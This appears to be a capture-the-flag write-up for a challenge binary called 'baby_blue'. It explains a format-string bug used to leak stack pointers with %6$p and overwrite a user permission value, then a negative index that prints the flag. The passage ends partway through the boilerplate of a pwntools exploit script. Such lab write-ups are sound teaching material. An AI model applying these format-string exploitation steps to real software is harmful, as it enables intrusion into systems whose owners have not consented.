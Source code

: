 Now, we know we have a fmt_str but remember, it reads only 12 chars 🥲

Okay lets keep digging to know how to read the flag…

![admin_panel](https://miro.medium.com/v2/resize:fit:720/format:webp/1*AzhkMX5HkemDYk5dXUPwbw.png)

In ```admin_panel()``` functoin, it simply checks if the permission of current user is 5 to read the flag, but wait, it only reads to ptr but doesn’t print it out. 🙃


### Pwning Stage ☠️

My idea is simply to use the format string in ```show_profile()``` to write to the permission variable of the current user.

For writing with format string we need:
- pointer to target
- offset from fmt_str to that target pointer

> We are sure that there must be a pointer to ```gUsers``` array on stsck because the array itself in heap but the pointer is on the stack.
{: .prompt-info}

Let’s break in show_profile() and lookup the stack + register username %6$p to print the 6th arg of printf

![memory](https://miro.medium.com/v2/resize:fit:720/format:webp/1*6By-p1JPjaFzASPe8KrG1g.png)

Here we got the privilage pointer at **offset 12** from our executable

Now we know how to bypass the condition, but what about printing the flag from out of stack??

![final](https://miro.medium.com/v2/resize:fit:720/format:webp/1*7XIShQkwWb3m0oAYZc_bEA.png)

Write after we bypass the privilage condition, we can print any user of the array.

Look! I can’t go over 7, but I can go down with negatives until print flag from stack 😎

**-10 worked for me**

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*AYaRfFgtAuIi0eIKV88saw.png)

### Exploit Script ✍️
```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or './baby_blue')

if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
b *show_profile+101
```